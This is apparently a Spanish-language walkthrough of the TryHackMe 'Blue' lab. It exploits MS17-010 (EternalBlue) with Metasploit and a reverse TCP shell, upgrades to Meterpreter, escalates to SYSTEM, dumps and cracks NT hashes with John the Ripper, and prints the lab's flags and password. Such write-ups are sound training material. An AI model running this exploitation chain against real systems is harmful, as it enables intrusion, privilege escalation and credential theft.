

# Blue

Implementar y piratear una máquina Windows, aprovechando problemas comunes de configuración incorrecta.

## 1. RECON

Realizamos un escaneo de puertos con NMAP.

```bash

nmap <IP_MAQUINA>

```


Comprobamos que hay 3 puertos con numero de puerto por debajo de 1000.


Para comprobar a que es vulnerable la maquina, escaneamos los 3 puertos y usamos el script que detecta vulnerabilidades.

```bash 

nmap -p 135,139,445 --script=vuln <IP_MÁQUINA>

```


Encontramos una vulnerabilidad: **ms17-010**.

## 2. GAIN ACCESS

Iniciamos metasploit

```bash 

sudo msfconsole

```


Buscamos la vulnerabilidad ms17-010 en metasploit.

```bash 

search ms17-010

```


Podemos comprobar que tenemos la ruta completa del codigo: **exploit/windows/smb/ms17_010_eternalblue**.

Usamos el modulo 0 ya que es el que necesitamos y vemos sus opciones:

```bash 

use 0
show options

```


El siguiente paso será completar las opciones vacias que sean necesarias, como podemos comprobar, debemos rellenar **RHOSTS**.
Tambien debemos cambiar **LHOSTS** ya que parece que por defecto ha usado una ip que no es valida.

```bash 

set rhosts <IP_MÁQUINA>
set lhost <IP_MI_MAQUINA>

```


En el guion de la practica de tryhackme, nos indica que ejecutemos el siguiente payload:

```bash 

set payload windows/x64/shell/reverse_tcp

```

Una vez puesto el payload, ejecutamos el exploit.

```bash 

run

```


Ya estamos dentro del sistema.

## 3. ESCALATE

Pulsamos CTRL + Z para dejar la maquina windows vulnerable en segundo plano y pasamos a mirar las sesiones.

```bash 

session -l

```


Una vez comprobado que existe la sesion de la maquina windows, vamos a cambiar nuestra consola a una consola meterpreter.
Buscamos la consola meterpreter y usamos el modulo 0.

```bash 

search shell_to_meterpreter
use 0

```


Pasamos a ver las opciones. 

```bash 

show options

```

Tal y como hicimos anteriormente, vamos a rellenar las opciones vacias que sean requeridas, en este caso **SESSION**.

```bash 

set session 1

```


Despues de esto, lo ejecutamos y nos deberia crear una nueva sesion.

```bash 

run

```


Comprobamos que tenemos la nueva sesion de metasploit.

```bash 

sessions -l

```


En este punto, vamos a pasar a usar la consola de meterpreter.

```bash 

sessions -i <ID_METERPRETER>

```

Usamos el comando **getsystem** como nos indican en el guion de tryhackme para verificar que hemos escalado a **NT AUTHORITY\SYSTEM**.

```bash 

getsystem

```


Tambien nos pide que ejecutemos el comando **shell** y que hagamos **whoami**.


```bash 

shell
whoami

```


El siguiente paso que nos indican es ejecutar **ps** y buscar un proceso del final de la lista y apuntar su **ID**.

```bash 

ps

```


Por ultimo en esta tarea, debemos migrar el proceso.

```bash 

migrate <ID_PROCESO>

```


## 4. CRACKING

El primer paso tal y como lo piden, es ejecutar el comando **hashdump**.

```bash 

hashdump

```


Esto nos da los usuarios del sistema, en este caso nos interesa **JON**.

Vamos a pasar a crackear la contraseña.Para ello, nos vamos a quedar con la ultima parte de la linea del usuario **JON**:

Jon:1000:aad3b435b51404eeaad3b435b51404ee:**ffb43f0de35be4d9917ac0cc8ad57f8d**::

Vamos a meter ese trozo en un txt, en mi caso **crack.txt**

Usamos Jhon The Ripper con el txt para que nos de la contraseña.
La wordlist que usaremos es **rockyou.txt**, que se encuentra en la carpeta SecLists que hemos usado en clase para algunos proyectos.

```bash

john crack.txt --format=NT --wordlist=/home/kali/Escritorio/SecLists/Passwords/Leaked-Databases/rockyou.txt

```


```bash

john --format=NT --show crack.txt

```


La contraseña era **alqfna22**

## 5. FIND FLAGS

Para encontrar las flags, nos dan pistas que nos quitan bastante dificultad.

### Primera flag

En el caso de la primera flag nos indican que se encuentra en la carpeta raiz del sistema.

Accederemos a la carpeta **C:**

```bash 

cd ..
cd ..
pwd

```


Usamos dir, y podemos comprobar que existe un archivo **flag1.txt**.

```bash 

dir

```


Para ver el contenido usamos cat y tendremos la flag.

```bash 

cat flag1.txt

```


La primera flag es **flag{access_the_machine}**

### Segunda flag

Aqui nos dan la pista de que se encuentra donde windows guarda las contraseñas.

```bash 

cd \\Windows\\System32\\config\\
dir

```

Comprobamos que existe el archivo **flag2.txt**.

```bash 

cat flag2.txt

```


La segunda flag es **flag{sam_database_elevated_access}**

### Tercera flag

La pista de esta flag es: "los administradores suelen tener cosas bastante interesantes guardadas", esto quiere decir que tenemos que acceder a la carpeta de Jon.

```bash 

cd \\Users\\Jon
dir

```


Podemos ver que la mayoria de carpetas estan vacias, si vamos buscando por orden, la primera carpeta es Documents.
Accedemos a ella.

```bash 

cd Documents
dir

```


Comprobamos que se encuentra el archivo **flag3.txt**.

```bash 

cat flag3.txt

```



La tercera flag es **flag{admin_documents_can_be_valuable}**

